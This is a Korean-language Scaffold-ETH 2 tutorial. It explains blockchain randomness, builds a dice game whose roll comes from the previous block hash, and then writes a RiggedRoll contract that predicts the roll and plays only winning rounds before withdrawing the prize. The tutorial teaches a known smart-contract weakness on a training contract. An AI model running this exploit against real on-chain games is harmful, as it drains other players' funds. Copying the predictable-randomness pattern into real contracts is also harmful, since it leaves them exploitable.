



# Scaffold-ETH 2로 간단한 주사위 게임 만들기

## 🚩 Step 0. 무작위성?

컴퓨터는 사람과 달리 무의식적인 선택을 할 수 없기 때문에 진정한 난수를 생성할 수 없다. 대신, 기존의 입력값을 기반으로 ‘결정론적’인 방법으로 난수를 생성한다. 이는 블록체인에서도 마찬가지인데, 블록체인에서는 모든 노드가 같은 결과값을 출력해야 하기 때문에 로컬 데이터를 사용한 난수 생성이 불가능하다. 때문에 블록체인에서 난수 생성은 더욱 어려운 문제가 된다.

블록체인에서 난수를 생성하는 방식은 여러 가지가 있다. 예를 들어, 블록의 상태값을 조합하여 난수 생성의 입력값으로 사용하는 방법이나, ‘Commit and Reveal’ 방식을 사용하는 방법이 있다. 그 외에도 VDF(Verifiable Delay Function), Signidice 등 다양한 방법이 존재한다.

그렇다면 왜 블록체인에서 난수가 필요할까? 여러 가지 이유가 있지만, 그중 하나는 밸리데이터를 선출할 때 난수를 사용하는 것이다. 이 과정은 모든 노드가 받아들일 수 있어야 하고, 누구도 조작할 수 없어야 한다. 따라서 블록체인에서는 탈중앙화를 유지하면서 신뢰할 수 있는 난수 생성이 필요하다. 이처럼 무작위성은 블록체인에서 매우 중요한 문제이다.

> 🔥 이번 미션에서는 블록 해시를 사용하여 난수를 생성하고, 이를 이용한 주사위 게임 웹앱 프론트엔드를 제작한다.

---

## 🚩 Step 1. 환경

프로젝트 클론해가기

```sh
git clone -b dice-game --single-branch https://github.com/Ludium-Official/solidity-dapp-mission.git dice-game
cd dice-game
yarn install
```
---

### Op1) 로컬 환경에서 실행

```sh
# 로컬 블록체인 초기화
yarn chain

# 스마트 계약 배포
yarn deploy

# 프론트엔드 실행
yarn start
```

📱 http://localhost:3000 으로 접속해서 애플리케이션 열기

---

### Op2) 테스트넷 환경에서 실행

**🪪 배포자 (Deployer) 설정**

***방법 1. 배포자 주소를 생성하여 사용***

주소가 생성되면 니모닉은 로컬에 저장되고, 프라이빗 키를 따로 입력하지 않고 계약을 배포할 수 있다.

```sh
# 배포자 주소 생성
yarn generate

# 로컬 계정 잔액 확인
yarn account
```
위에서 생성된 주소로 sepoliaETH를 보내거나 공개 faucet에서 받는다.

***방법 2. 실제 소유한 주소를 사용***

`packages/hardhat/.env` 및 `packages/nextjs/.env.local`을 수정한다.

```bash
# .env
ALCHEMY_API_KEY=
DEPLOYER_PRIVATE_KEY=
```
본인 계정의 [Alchemy](https://dashboard.alchemy.com/apps) Apps API key와 소유하고 있는 지갑의 프라이빗 키를 기입한다.

> Metamask 지갑의 경우, 계정 세부 정보로 들어가면 프라이빗 키를 얻을 수 있다.

<br/>

**🪝 배포하기**

***방법 1. defaultNetwork 설정***
`packages/hardhat/hardhat.config.ts`에서 defaultNetwork를 `sepolia`로 변경한다.

```sh
yarn deploy
```

***방법 2. 명령에서 네트워크 지정***
```sh
yarn deploy --network sepolia
```

<br/>

**🏛️ 프론트엔드 배포하기**

`packages/nextjs/scaffold.config.ts`를 아래처럼 변경한다.

```typescript
const scaffoldConfig = {
  targetNetworks: [chains.sepolia],

  // ...

  onlyLocalBurnerWallet: false,
} as const satisfies ScaffoldConfig;
```

NestJS 애플리케이션을 배포한다. [Vercel](https://vercel.com/) 에서 로그인 후 dashboard로 이동해 `Add New -> Project` 를 클릭한 후 GitHub repository를 임포트해온다.

```shell
yarn vercel
```

📱 Vercel이 제공하는 url 로 접속해서 애플리케이션 열기

---

## 🚩 Step 2. 주사위 롤

`Dice Game` 에서 `Roll the dice!` 버튼을 클릭해 주사위를 굴린다.

사용자가 주사위를 굴릴 때 참가비로 0.002 ETH 를 지불하고, `0,1,2,3,4,5`가 나오면 현재 상금 금액을 획득 한다.

사용자가 보낸 0.002 ETH 중 40%는 현재 상금에 추가되고, 나머지 60%는 미래 상금을 마련하기 위해 `DiceGame.sol` 컨트랙트에 남아있다.


> ⚠️ 0.002 ETH 보다 적으면 `rollTheDice()` 함수가 실행되지 않는다.

---

## 🚩 Step 3. 게임 조작

위의 `rollTheDice()` 함수에서 주사위 결과 값을 도출할 때 이전 블록의 해시 값과 컨트랙트 주소, nonce 값을 사용한다.

```solidity
// DiceGame.sol

function rollTheDice() public payable {

  // ...

  // 이전 블록의 해시 값
  bytes32 prevHash = blockhash(block.number - 1);
  // 해시 값을 사용하여 난수를 생성
  bytes32 hash = keccak256(abi.encodePacked(prevHash, address(this), nonce));
  // 주사위 결과 값을 0에서 15 사이로 설정
  uint256 roll = uint256(hash) % 16;

  // ...

}
```

따라서 이 세 개의 값을 미리 알고 있다면, 결과 값을 미리 예측할 수 있다.

추가적인 컨트랙트 `RiggedRoll.sol` 에 결과 값을 먼저 예측한 뒤 성공했을 때만 `DiceGame.sol`의 `rollTheDice()`를 실행하게 하는 함수를 작성한다.

```solidity
function riggedRoll() public payable {
    require(address(this).balance >= .002 ether, "Not enough ether");

    // DiceGame.sol의 rollTheDice 함수와 동일하게 주사위 결과 값 도출
    bytes32 prevHash = blockhash(block.number - 1);
    bytes32 hash = keccak256(abi.encodePacked(prevHash, address(diceGame), diceGame.nonce()));
    uint256 roll = uint256(hash) % 16;
    console.log("\t", "   Rigged Roll", block.number, roll);

    // 0,1,2,3,4,5가 나오면 DiceGame.sol의 rollTheDice 실행
    require(roll <= 5, "Failed");
    diceGame.rollTheDice{value: msg.value}();
}
```

❗️ RigedRoll contract를 `deploy`하기 전 `packages/hardhat/deploy/01_deploy_riggedRoll.ts` 에서 소유자를 나의 지갑 주소로 변경한다.

```typescript
// 나중에 남아있는 잔고를 인출 받을 지갑 주소를 입력
try {
  await riggedRoll.transferOwnership("내 지갑 주소");
} catch (err) {
  console.log(err);
}
```

이제 다시 `Dice Game` 탭에서 `Rigged Roll` 버튼을 클릭하여 주사위를 굴린다.

실패하면 require문에 의해 트랜잭션 자체가 revert 되어 참가비가 지불되지 않는다.

```solidity
require(roll <= 5, "Failed");
```



성공하면 상금이 `RiggedRoll.sol`으로 보내진다.



---

## 🚩 Step 4. 잔액 인출

지금까지 주사위 게임으로 쌓인 상금(ETH)을 인출해보자.

`Debug Contracts` 탭의 `RiggedRoll`에서 `withdraw()` 함수를 실행한다.



결과적으로 사용자는 아무런 리스크 없이 주사위 게임을 즐길 수 있다.